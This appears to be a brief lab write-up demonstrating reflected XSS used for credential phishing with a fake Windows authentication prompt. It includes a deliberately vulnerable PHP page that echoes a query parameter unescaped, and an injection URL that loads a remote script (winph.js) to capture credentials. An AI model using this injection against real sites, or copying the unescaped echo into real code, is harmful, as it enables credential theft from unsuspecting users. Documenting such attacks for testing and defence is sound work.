

# [Phish] Windows Authentication Prompt

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

### Vulnerable Page (`rxss.php`)

```
<!DOCTYPE html>
<html>
  <body>
    <h2>Test page</h2>
    <p>Test content</p>
    <?php echo '<div>' . $_GET['q'] . '</div>'; ?>
  </body>
</html>
```

## Exploitation Steps

1. victim user clicks link

```
http://192.168.5.13/rxss.php?q=<script src=http://192.168.5.13/winph.js></script>
```

2. victim user authenticates

*(attacker obtains credentials)*

## Screenshots

*(Mozilla FireFox)*


*(Google Chrome)*


*(Microsoft Edge)*


*(captured credentials)*

